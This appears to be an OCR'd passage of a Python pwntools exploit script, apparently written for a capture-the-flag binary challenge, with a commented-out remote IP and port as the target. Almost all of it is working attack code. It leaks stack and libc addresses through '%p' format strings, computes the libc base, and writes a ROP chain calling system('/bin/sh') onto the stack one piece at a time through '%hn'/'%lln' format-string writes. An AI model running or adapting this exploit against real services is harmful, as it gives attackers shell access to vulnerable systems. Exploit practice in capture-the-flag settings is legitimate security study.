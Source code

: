 ```py=
        payload += b'%' + str(addr & 0xffff).encode() + b'c'
    payload += b'%13$hn'
    tmp = addr & 0xff
    if tmp > value:
        need = value + 0x100 - tmp
    else:
        need = value - tmp
    payload += b'%' + str(need).encode() + b'c' + b'%40$lln'
    return payload
def fmstr(offset, value):
    if value != 0:
        payload = f'%{value}c%{offset}$hn'.encode()
    else:
        payload = b'hihi'
    return payload
def GDB(proc):
    gdb.attach(p, gdbscript='''
               b info
               b *(main + 84)
               c
               ''')
#context.log_level = 'debug'
p = process()
#p = remote('103.163.24.78', 10002)
reg(b'nao', b'nao', b'%p|'*0x10)
info()
ru(b'|')
leak = ru(b'|')[:-1]
leak = int(leak.decode(), 16)
print('leak: ', hex(leak))
libc.address = leak - 0x1f6b24
print('libc: ', hex(libc.address))
for i in range(3):
    ru(b'|')
leak = ru(b'|')[:-1]
leak = int(leak.decode(), 16)
print('leak: ', hex(leak))
stack_main = leak + 0x28
print('stack: ', hex(stack_main))

GDB(p)

logout()
sla(B'eedback:', b'hihi')
reg(b'nao', b'nao', b'%13$p|%40$p')
info()
RET = 0x00000000000b9ba9 + libc.address#: xor rax, rax ; ret

rop = ROP(libc)
rop.raw(RET)
rop.system(next(libc.search(b'/bin/sh\x00')))
rop = rop.chain()
print(rop)
for i in range(len(rop)):
    logout()
    sla(B'eedback:', b'hihi')
    pl = fmstr(13, stack_main & 0xffff)
    reg(b'nao', b'nao', pl)
    info()
    logout()
    sla(B'eedback:', b'hihi')
    pl = fmstr(40, rop[i])
    reg(b'nao', b'nao', pl)
```
